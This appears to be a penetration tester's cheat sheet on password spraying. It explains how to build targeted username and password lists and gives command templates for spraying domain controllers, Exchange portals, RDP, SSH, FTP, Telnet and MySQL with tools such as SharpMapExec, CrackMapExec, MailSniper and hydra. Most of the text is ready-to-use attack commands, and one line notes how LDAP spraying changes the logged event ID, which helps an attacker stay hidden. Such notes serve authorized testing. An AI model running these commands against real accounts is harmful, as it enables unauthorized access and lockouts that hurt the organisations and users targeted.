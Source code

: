 # __Password spraying__
>Author: Pieter Miske
---
### __Create username and password lists:__
#### _Create username list:_
>Based on identified email addresses, determine the username convention \(e\.g\. j\.smith, john\.smith\) and use that information to create a targeted username list.
- Create username list based on statistically likely [usernames](https://github.com/insidetrust/statistically-likely-usernames)
- Create username list with multiple username convention structures based on found employee names: 
	- 1\. Create a list of found employees full names \(e\.g\. Bob Farmer\)
	- 2\. Create usernames \([Namemash](https://gist.github.com/superkojiman/11076951)\): python namemash\.py names\.txt >> possible\-usernames\.txt

##### _Create targeted password list:_
>Keep it mind that patterns such as MonthYear \(August2019\), SeasonYear \(Summer2019\) and DayDate \(Tuesday6\) are very common\.
- Manually create a small common wordlist based on basic patterns \(MonthYear, SeasonYear, DayDate\) and very common words/numbers
- Generate a wordlist for password spraying by running the [goPassGen](https://github.com/bigb0sss/goPassGen) tool and follow wizard to create wordlist\. 
- Crawl target website to generate wordlist \([ceWL](https://github.com/digininja/CeWL)\): `cewl -m <minimal_word_length (e.g. 6)> -d 5 -w <output file.txt> <target ip or domain> --with-numbers`


---
### __Conduct password spraying:__
>Be aware that these authentication attempts may count towards the domain lockout policy for the users\. Too many attempts in a short period of time is not only loud, but may also lock accounts out\.
#### _Password spray targeting Domain Controller:_
Check if a found password or a common/weak one applies to a domain account\.
- Kerberos password spray: 
	- \([C2\-Tool\-Collection-BOF](https://github.com/outflanknl/C2-Tool-Collection)\) \(possible to specify account name filter\): `SprayAD <password> (<adm*>)`
	- \([SharpMapExec](https://github.com/cube0x0/SharpMapExec)\) Kerberos password spray (tool requires elevated privs on the system it's run from): `SharpMapExec kerbspray /users:C:\users\public\documents\users.txt /passwords:C:\users\public\documents\passwords.txt /domain:<FQDN> /dc:<FQDN target DC>`
- LDAP password spray:
    - (C2\-Tool\-Collection-BOF) \(uses logon event ID 4771 instead of 4625\): `SprayAD <password> ldap`
    - \([CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)\): `crackmapexec smb -u <username list> -p <password> (--exec-method wmiexec)`

#### _Password spray targeting mail server:_
- Spray against Exchange EWS/OWA portal \(use "Invoke\-PasswordSprayOWA" against an OWA portal\) \([MailSniper\.ps1](https://github.com/dafthack/MailSniper)\): `Invoke-PasswordSprayEWS -ExchHostname <FQDN or IP exchange server> -UserList <path to userlist.txt> -Password <single password> -Threads 15 -OutFile valid-creds.txt`
- Spray against multiple mail server types: \([SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)\): `./atomizer.py <owa | imap | lync> <target mail server domain> <single password> <email_list.txt>`

#### _Password spray targeting other services:_
- Spray against RDP enabled targets \(tool will only list successful logins\) \([Crowbar](https://github.com/galkan/crowbar)\): `sudo python3 crowbar.py -b rdp -s <single target ip>/32 -U <username list> -c <single password> -n 1`
- Bruteforce SSH login: `hydra -f -V -t 1 -L <wordlist/user> -P <wordlist/password> -s 22 <target ip>`
- Bruteforce FTP login: `hydra -L <username list> -P <password list> -f -o <output file> -u <target ip> -s 21 ftp`
- Bruteforce Telnet login: `hydra -L <usernames.txt> -P <passwords.txt> <target ip> telnet -V`
- Bruteforce MySQL login:`hydra -L <userlist.txt> -P <passlist.txt> -f <target ip> mysql`